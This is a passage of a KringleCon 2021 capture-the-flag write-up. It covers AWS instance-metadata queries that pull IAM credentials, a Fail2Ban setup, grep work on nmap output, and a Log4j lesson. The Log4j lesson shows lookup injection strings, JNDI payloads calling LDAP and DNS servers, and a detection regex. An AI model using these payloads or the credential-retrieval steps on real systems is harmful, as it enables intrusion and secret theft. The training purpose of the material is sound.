elfu@e958e83b81b3:~$ curl http://169.254.169.254/latest/meta-data
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
iam/security-credentials/elfu-deploy-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
macnetwork/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time
```

>By accessing the metadata elements, a developer can interrogate information about the system. Take a look at the public-hostname element: `curl http://169.254.169.254/latest/meta-data/public-hostname`

```shell
elfu@e958e83b81b3:~$ curl http://169.254.169.254/latest/meta-data/public-hostname
ec2-192-0-2-54.compute-1.amazonaws.comelfu@e958e83b81b3:~$ 
```

>Many of the data elements returned won't include a trailing newline, which causes the response to blend into the prompt. Re-run the prior command, adding '; echo' to the end of the command. This will add a new line character to the response.

```shell
elfu@e958e83b81b3:~$ curl http://169.254.169.254/latest/meta-data/public-hostname; echo;
ec2-192-0-2-54.compute-1.amazonaws.com
```

>There is a whole lot of information that can be retrieved from the IMDS server. Even AWS Identity and Access Management (IAM) credentials! Request the endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials` to see the instance IAM role.

```shell
elfu@e958e83b81b3:~$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials; echo;
elfu-deploy-role
```

>Once you know the role name, you can request the AWS keys associated with the role. Request the endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role` to get the instance AWS keys.

```shell
elfu@e958e83b81b3:~$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   308  100   308    0     0   300k      0 --:--:-- --:--:-- --:--:--  300k
{
  "Code": "Success",
  "LastUpdated": "2021-12-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-12-02T18:50:40Z"
}
```

>So far, we've been interacting with the IMDS server using IMDSv1, which does not require authentication. Optionally, AWS users can turn on IMDSv2 that requires authentication. This is more secure, but not on by default. For IMDSv2 access, you must request a token from the IMDS server using the `X-aws-ec2-metadata-token-ttl-seconds` header to indicate how long you want the token to be used for (between 1 and 21,600 secods). Examine the contents of the `gettoken.sh` script in the current directory using `cat`.

```shell
elfu@e958e83b81b3:~$ cat gettoken.sh 
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
```

>This script will retrieve a token from the IMDS server and save it in the environment variable `TOKEN`. Import it into your environment by running `source gettoken.sh`.

```shell
elfu@e958e83b81b3:~$ source gettoken.sh 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    44  100    44    0     0  44000      0 --:--:-- --:--:-- --:--:-- 44000
```

>Now, the IMDS token value is stored in the environment variable `TOKEN`. Examine the contents of the token by running `echo $TOKEN`.

```shell
elfu@e958e83b81b3:~$ echo $TOKEN
Uv38ByGCZU8WP18PmmIdcpVmx00QA3xNe7sEB9Hixkk=
```

>With the IMDS token, you can make an IMDSv2 request by adding the `X-aws-ec2-metadata-token` header to the curl request. Access the metadata region information in an IMDSv2 request: `curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/placement/region`

```shell
elfu@e958e83b81b3:~$ curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/placement/region
```

>🍬🍬🍬🍬Congratulations!🍬🍬🍬🍬
You've completed the lesson on Instance Metadata interaction. Run 'exit' to close.


### Eve Snowshoes - HoHo ... No
```
Jack is trying to break into Santa's workshop!

Santa's elves are working 24/7 to manually look through logs, identify the
malicious IP addresses, and block them. We need your help to automate this so
the elves can get back to making presents!

Can you configure Fail2Ban to detect and block the bad IPs?

 * You must monitor for new log entries in /var/log/hohono.log
 * If an IP generates 10 or more failure messages within an hour then it must
   be added to the naughty list by running naughtylist add <ip>
        /root/naughtylist add 12.34.56.78
 * You can also remove an IP with naughtylist del <ip>
        /root/naughtylist del 12.34.56.78
 * You can check which IPs are currently on the naughty list by running
        /root/naughtylist list

You'll be rewarded if you correctly identify all the malicious IPs with a
Fail2Ban filter in /etc/fail2ban/filter.d, an action to ban and unban in
/etc/fail2ban/action.d, and a custom jail in /etc/fail2ban/jail.d. Don't
add any nice IPs to the naughty list!

*** IMPORTANT NOTE! ***

Fail2Ban won't rescan any logs it has already seen. That means it won't
automatically process the log file each time you make changes to the Fail2Ban
config. When needed, run /root/naughtylist refresh to re-sample the log file
and tell Fail2Ban to reprocess it.
```

Start by watching the KringleCon talk on this subject [here](https://www.youtube.com/watch?v=Fwv2-uV6e5I&list=PLjLd1hNA7YVx99qJF3OoPF-qunjqw-SoU&index=2). It walks you through everything you will need to do to create your own jail for this challenge.

Start by taking a look at the `/var/log/hohono.log` file to check for what kind of strings would constitute an action to ban. Place the appropriate regex in a new configuration file at `/etc/fail2ban/filter.d/hohono.conf`:

```shell
root@32e408c97114:~# cat /etc/fail2ban/filter.d/hohono.conf
[Definition]
failregex = ^ Failed login from <HOST> for \w+$
            ^ Invalid heartbeat '\w+' from <HOST>$
            ^ Login from <HOST> rejected due to unknown user name$
            ^ <HOST> sent a malformed request$
datepattern = %%Y-%%m-%%d %%H:%%M:%%S
```

Next, we specify in `/etc/fail2ban/action.d/hohono.conf` what to do when something is banned/unbanned:

```shell
root@32e408c97114:~# cat /etc/fail2ban/action.d/hohono.conf 
[Definition]
actionban = /root/naughtylist add <ip>
actionunban = /root/naughtylist del <ip>
```

Now, we can create the jail:
```shell
root@e6db0c75f086:~# cat /etc/fail2ban/jail.local 
[hohono_jail]
enabled = true
logpath = /var/log/hohono.log
maxretry = 10
findtime = 60m
bantime = 24h
filter = hohono
action = hohono
```

Next, we have to restart the service:
```shell
root@bf2562f17374:~# service fail2ban restart
 * Restarting Authentication failure monitor fail2ban                          [ OK ] 
```

Finally, we can run the refresh command to test:
```shell
root@bf2562f17374:~# /root/naughtylist refresh
Refreshing the log file...
root@bf2562f17374:~# Log file refreshed! It may take fail2ban a few moments to re-process.
12.76.209.2 has been added to the naughty list!
221.171.135.2 has been added to the naughty list!
185.136.188.80 has been added to the naughty list!
189.31.216.240 has been added to the naughty list!
18.212.12.147 has been added to the naughty list!
193.62.232.9 has been added to the naughty list!
66.112.202.33 has been added to the naughty list!
135.223.88.13 has been added to the naughty list!
98.152.90.41 has been added to the naughty list!
108.181.210.84 has been added to the naughty list!
174.22.166.200 has been added to the naughty list!
18.112.4.217 has been added to the naughty list!
164.252.119.177 has been added to the naughty list!
127.79.133.109 has been added to the naughty list!
68.140.135.51 has been added to the naughty list!
5.70.196.43 has been added to the naughty list!
You correctly identifed 16 IPs out of 16 bad IPs
You incorrectly added 0 benign IPs to the naughty list


*******************************************************************
* You stopped the attacking systems! You saved our systems!
*
* Thank you for all of your help. You are a talented defender!
*******************************************************************
```

### Greasy GopherGuts - Grepping for Gold

>Howdy howdy!  Mind helping me with this homew- er, challenge?
Someone ran nmap -oG on a big network and produced this bigscan.gnmap file.
The quizme program has the questions and hints and, incidentally,
has NOTHING to do with an Elf University assignment. Thanks!

>What port does 34.76.1.22 have open? 62078
```shell
elf@237fac25c530:~$ grep 34.76.1.22 bigscan.gnmap 
Host: 34.76.1.22 ()     Status: Up
Host: 34.76.1.22 ()     Ports: 62078/open/tcp//iphone-sync///      Ignored State: closed (999)
```

>What port does 34.77.207.226 have open? 8080
```shell
elf@237fac25c530:~$ grep 34.77.207.226 bigscan.gnmap 
Host: 34.77.207.226 ()     Status: Up
Host: 34.77.207.226 ()     Ports: 8080/open/tcp//http-proxy///      Ignored State: filtered (999)
```

>How many hosts appear "Up" in the scan?
```shell
elf@237fac25c530:~$ grep "Status: Up" bigscan.gnmap  | wc -l
26054
```

>How many hosts have a web port open?  (Let's just use TCP ports 80, 443, and 8080)
```shell
elf@237fac25c530:~$ egrep "(80|443|8080)/" bigscan.gnmap | cut -d' ' -f 2 | uniq | wc -l
14372
```

>How many hosts with status Up have no (detected) open TCP ports?
```shell
elf@237fac25c530:~$ cat bigscan.gnmap | grep "Status: Up" -A 1 | cut -d' ' -f 2 | uniq -c | grep "1 " | wc -l
402
```

This solutions takes advantage of the fact that the line after (`-A 1`) the "Status: Up" will show open ports, but if nothing is open, it will show the next IP address. Therefore, the IP addresses that are only present once in the result are those without open ports. The challenge provides an alternative solution:

```shell
echo $((`grep Up bigscan.gnmap | wc -l` - `grep Ports bigscan.gnmap | wc -l`))
```

>What's the greatest number of TCP ports any one host has open?

```shell
elf@15f57efaca46:~$ grep -on "/open/" bigscan.gnmap | cut -d':' -f 1 | uniq -c | sort
12
```

The above looks for lines with "/open/" in them and outputs the line number (`-n`) and the matching text (`-o`) for each matching occurrence, so if it matches 3 times on a line, that line is added 3 times to the result, which makes it easy to count the results. Some alternatives provided by the game:

```
We used this as a solution:
grep -E "(open.*){12,}" bigscan.gnmap | wc -l && grep -E "(open.*){13,}" bigscan.gnmap | wc -l
In our solution, we count how many lines have "open" in them a number of times.  We get a few for 12 and none for 13.
One crafty tester employed the mighty powers of awk like this:
  awk 'BEGIN {print}{print gsub(/open/,"") ""}' bigscan.gnmap | sort -nr | head -1
```

### Bonus Challenges - Log4J
These were added on 12/21/21 at the North Pole location.

#### Bow Ninecandle - Bonus! Blue Log4Jack
```
🎄🎄🎄 Prof. Petabyte here. In this lesson we'll look at the details around the recent Log4j
🎄🎄🎄 vulnerabilities using sample Java programs. We'll also look at tools for scanning
🎄🎄🎄 for vulnerable source code and identifying attacks using web server logs.
🎄🎄🎄 If you get stuck, run 'hint' for assitance.

In this lesson we'll look at Java source code to better understand the Log4j vulnerabilities
described in CVE-2021-44228. You don't need to be a programmer to benefit from this lesson!

I have prepared several files for you to use in this lesson. Run the 'ls' command to see the
files for this lesson.
```

```shell
elfu@2f3be4d07871:~$ ls
log4j2-scan  logshell-search.sh  patched  vulnerable
```

```
First we'll look at the some Java source, including an example of a vulnerable Java program
using the Log4j library.
Change to the vulnerable directory with the command 'cd vulnerable'
List the files in this directory. Run the 'ls' command.
```

```shell
elfu@2f3be4d07871:~$ cd vulnerable/
elfu@2f3be4d07871:~/vulnerable$ ls
DisplayFilev1.java  log4j-api-2.14.1.jar   startserver.sh
DisplayFilev2.java  log4j-core-2.14.1.jar  testfile.txt
```

```
Here we have Java source code (with the .java file name extension), and a vulnerable version of
the Log4j library.
Display the contents of the DisplayFilev1.java source code with the 'cat' command.
```

```shell
elfu@2f3be4d07871:~/vulnerable$ cat DisplayFilev1.java 
import java.io.*;

public class DisplayFilev1 {
    public static void main(String[] args) throws Exception {

        File file = new File(args[0]);
        BufferedReader br = new BufferedReader(new FileReader(file));

        String st;
        while ((st = br.readLine()) != null) {
            System.out.println(st);
        }
    }
}
```

```
This Java program has one job: it reads a file specified as a command-line argument, and
displays the contents on the screen. We'll use it as an example of error handling in Java.
Let's compile this Java source so we can run it. Run the command 'javac DisplayFilev1.java'. Next, run the program and display the contents
of the testfile.txt file.
```

```shell
elfu@2f3be4d07871:~/vulnerable$ javac DisplayFilev1.java 
elfu@2f3be4d07871:~/vulnerable$ java DisplayFilev1 testfile.txt
Hello from Prof. Petabyte!
```

```
This program did its job: it displayed the testfile.txt contents. But it also has some
problems. Re-run the last command, this time trying to read testfile2.txt
```

```shell
elfu@2f3be4d07871:~/vulnerable$ java DisplayFilev1 testfile2.txt
Exception in thread "main" java.io.FileNotFoundException: testfile2.txt (No such file or directory)
        at java.io.FileInputStream.open0(Native Method)
        at java.io.FileInputStream.open(FileInputStream.java:195)
        at java.io.FileInputStream.<init>(FileInputStream.java:138)
        at java.io.FileReader.<init>(FileReader.java:72)
        at DisplayFilev1.main(DisplayFilev1.java:7)`
```

```
This program doesn't gracefully handle a scenario where the file doesn't exist. Program
exceptions like this one need consistent handling and logging, which is where Log4j comes in.
The Apache Log4j library allows developers to handle logging consistently in code.
Let's look at an example of a modified version of this program. Run 'cat DisplayFilev2.java'.
```

```shell
elfu@2f3be4d07871:~/vulnerable$ cat DisplayFilev2.java 
import java.io.*;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class DisplayFilev2 {
    static Logger logger = LogManager.getLogger(DisplayFilev2.class);
    public static void main(String[] args) throws Exception {
        String st;
        try {
            File file = new File(args[0]);
            BufferedReader br = new BufferedReader(new FileReader(file));

            while ((st = br.readLine()) != null)
                System.out.println(st);
        }
        catch (Exception e) {
            logger.error("Unable to read file " + args[0] + " (make sure you specify a valid file name).");
        }
    }
}
```

```
This Java program has the same functionality, but the first few lines adds support for the
log4j library. The 4th line from the bottom calls Log4j with the logger.error() function,
followed by a logging message.
Let's compile this Java source with Log4j support so we can run it. Run the command 'javac
DisplayFilev2.java'.
Nice work! Let's run the program and tell it to read testfile2.txt file.
Run 'java DisplayFilev2 testfile2.txt'
```

```shell
elfu@2f3be4d07871:~/vulnerable$ javac DisplayFilev2.java 
elfu@2f3be4d07871:~/vulnerable$ java DisplayFilev2 testfile2.txt
00:32:12.214 [main] ERROR DisplayFilev2 - Unable to read file testfile2.txt (make sure you specify a valid file name).
```

``` 
This time, the program doesn't crash - it exits with an error message generated by Log4j. The
Log4j library is valuable to produce consistent logging messages that can be handled flexibly.
Unfortunately, multiple vulnerabilities allows attackers to manipulate this functionality in
many versions of Log4j 2 before version 2.17.0.
The CVE-2021-44228 Log4j vulnerability is from improper input validation. Log4j includes
support for lookup features, where an attacker can supply input that retrieves more data than
intended from the system.
Re-run the prior java command, replacing testfile2.txt with the string '${java:version}'
(IMPORTANT: include the quotation marks in this command)
```

```shell
elfu@2f3be4d07871:~/vulnerable$ java DisplayFilev2 '${java:version}'
00:33:55.319 [main] ERROR DisplayFilev2 - Unable to read file Java version 1.8.0_312 (make sure you specify a valid file name).
```

```
Notice how the error has changed - instead of a file name, the error shows the Java version
information. The Log4j lookup command java:version retrieves information from the host
operating system.
Let's try another example: re-run the last command, changing the java:version string to
env:APISECRET
```

```shell
elfu@2f3be4d07871:~/vulnerable$ java DisplayFilev2 '${env:APISECRET}'
00:34:58.309 [main] ERROR DisplayFilev2 - Unable to read file pOFZFiWHjqKoQaRhNYyC (make sure you specify a valid file name).
```

```
Using the Log4j env lookup, attackers can access local environment variables, possibly
disclosing secrets like this one. Log4j also supports lookup requests using the Java Naming and
Directory Interface (JNDI). These requests can reach out to an attacker server to request data.
Log4j lookups can also tell the vulnerable server to contact the attacker using LDAP and DNS.
Run the startserver.sh command to launch a simple server for testing purposes.
The bottom window is waiting for a connection at the specified IP address and port. Re-run the
DisplayFilev2 program, using the Log4j lookup to connect to the server:  java DisplayFilev2
'${jndi:ldap://127.0.0.1:1389/Exploit}'
This causes the server to reach out to the attacker's server and open a connection.
To address this vulnerability, applications need an updated version of Log4j.
Change to the ~/patched directory by running 'cd ~/patched'
```

```shell
elfu@2f3be4d07871:~/patched$ ls
DisplayFilev2.java  classpath.sh  log4j-api-2.17.0.jar  log4j-core-2.17.0.jar
```

```
This is the same DisplayFilev2.java source, but the Log4j library is updated to a patched
version.
To use the updated library, change the Java CLASSPATH variable by running 'source classpath.sh'
Compile the DisplayFilev2.java source using the patched Log4j library. Run 'javac
DisplayFilev2.java'
Use the Log4j lookup string java:version by running the following command: java DisplayFilev2
'${java:version}'  IMPORTANT: include the quotation marks in this command.
```

```shell
elfu@2f3be4d07871:~/patched$ source classpath.sh 
Changing the Java CLASSPATH to use patched Log4j
elfu@2f3be4d07871:~/patched$ javac DisplayFilev2.java 
elfu@2f3be4d07871:~/patched$ java DisplayFilev2 '${java:version}'
00:40:55.305 [main] ERROR DisplayFilev2 - Unable to read file ${java:version} (make sure you specify a valid file name).
```

```
With the fixed Log4j library, attackers can't use the lookup feature to exploit library. The
same program displays the ${java:version} lookup as a literal string, without performing the
actual lookup.
Next, we'll look at a technique to scan applications for the vulnerable Log4j library. Run 'cd'
to return to the home directory.
The log4j2-scan utility is a tool to scan for vulnerable Log4j application use. Run the
log4j2-scan utility, specifying the vulnerable directory as the first command-line argument.
```

```shell
elfu@2f3be4d07871:~$ log4j2-scan vulnerable/
Logpresso CVE-2021-44228 Vulnerability Scanner 2.2.0 (2021-12-18)
Scanning directory: vulnerable/ (without tmpfs, shm)
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /home/elfu/vulnerable/log4j-core-2.14.1.jar, log4j 2.14.1

Scanned 1 directories and 8 files
Found 1 vulnerable files
Found 0 potentially vulnerable files
Found 0 mitigated files
Completed in 0.00 seconds

elfu@2f3be4d07871:~$ log4j2-scan patched/
Logpresso CVE-2021-44228 Vulnerability Scanner 2.2.0 (2021-12-18)
Scanning directory: patched/ (without tmpfs, shm)

Scanned 1 directories and 5 files
Found 0 vulnerable files
Found 0 potentially vulnerable files
Found 0 mitigated files
Completed in 0.00 seconds
```

```
Log4j2-scan can also scan large directories of files.
This server includes the Apache Solr software that uses Log4j in the /var/www/solr directory.
Scan this directory with log4j2-scan to identify if the server is vulnerable.
```

```shell
elfu@2f3be4d07871:~$ log4j2-scan /var/www/solr
Logpresso CVE-2021-44228 Vulnerability Scanner 2.2.0 (2021-12-18)
Scanning directory: /var/www/solr (without tmpfs, shm)
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/server/lib/ext/log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/contrib/prometheus-exporter/lib/log4j-core-2.14.1.jar, log4j 2.14.1

Scanned 102 directories and 1988 files
Found 2 vulnerable files
Found 0 potentially vulnerable files
Found 0 mitigated files
Completed in 0.35 seconds
```

```
Log4j2-scan finds two vulnerable Log4j libraries: one for the Solr platform, and one for a
third-party plugin. Both need to be patched to resolve the vulnerability.
Next, we'll look at scanning system logs for signs of Log4j attack.
The CVE-2021-44228 Log4j exploit using JNDI for access is known as Log4shell. It uses the JNDI
lookup feature to manipulate logs, gain access to data, or run commands on the vulnerable
server. Web application servers are a common target.
Let's scan the web logs on this server. Examine the files in the /var/log/www directory.
```

```shell
elfu@2f3be4d07871:~$ ls /var/log/www
access.log
```

```
We can scan web server logs to find requests that include the Log4j lookup syntax using a text
pattern matching routine known as a regular expression. Examine the contents of the logshell-
search.sh script using 'cat'
```

```shell
elfu@2f3be4d07871:~$ cat logshell-search.sh 
#!/bin/sh
grep -E -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' $1
```

```
This script recursively searches for Log4shell attack syntax in any files. Run the logshell-
search.sh command, specifying the /var/log/www directory as the search target.
```

```shell
elfu@2f3be4d07871:~$ logshell-search.sh /var/log/www 
/var/log/www/access.log:10.26.4.27 - - [14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"
```

```
In this output we see three examples of Log4shell attack. Let's look at each line individually.
Re-run the previous command, piping the output to | sed '1!d' to focus on the first line.
```

```shell
elfu@2f3be4d07871:~$ logshell-search.sh /var/log/www | sed '1!d'
/var/log/www/access.log:10.26.4.27 - - [14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
```

```
In this first attack, we see the attacker is at 10.26.4.27. The Log4j lookup command is sent as
a URL GET parameter, attempting to use JDNI to reach the attacker LDAP server at
ldap://10.26.4.27:1389 (see in the ${jndi:ldap://10.26.4.27:1389/Evil} string).
Re-run the previous command, this time looking at the 2nd line of output.
```

```shell
elfu@2f3be4d07871:~$ logshell-search.sh /var/log/www | sed '2!d'
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
```

```
In this second attack, we see the attacker is at 10.99.3.1. Instead of a URL GET parameter,
this time the exploit is sent through the browser User-Agent field. The attacker attempted to
use JDNI to reach the attacker DNS server at dns://10.99.3.43, using a different IP than the
exploit delivery address.
Re-run the previous command, this time looking at the 3rd line of output.
```

```shell
elfu@2f3be4d07871:~$ logshell-search.sh /var/log/www | sed '3!d'
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"
```

```
Here we see the attacker is at 10.3.243.6. This attack is also sent through the browser User
Agent field, but this more closely resembles the first attack using the attacker LDAP server at
10.3.243.6. The DefinitelyLegitimate string is supplied by the attacker, matching a malicious
Java class on the LDAP server to exploit the victim Log4j instance.

🍬🍬🍬🍬Congratulations!🍬🍬🍬🍬
You've completed the lesson on Log4j vulnerabilities.
```

The `logshell-search.sh` script is available [here](https://gist.github.com/joswr1ght/a6badf9b0b148efadfccbf967fcc2b41), and more information on Log4j 2 lookups and the CVE can be found [here](https://logging.apache.org/log4j/2.x/manual/lookups.html). 

#### Icky McGoop - Bonus! Red Log4Jack

Provided resources are [here](https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4) (walkthrough) and [here](https://bishopfox.com/blog/log4j-zero-day-cve-2021-44228) (talk).
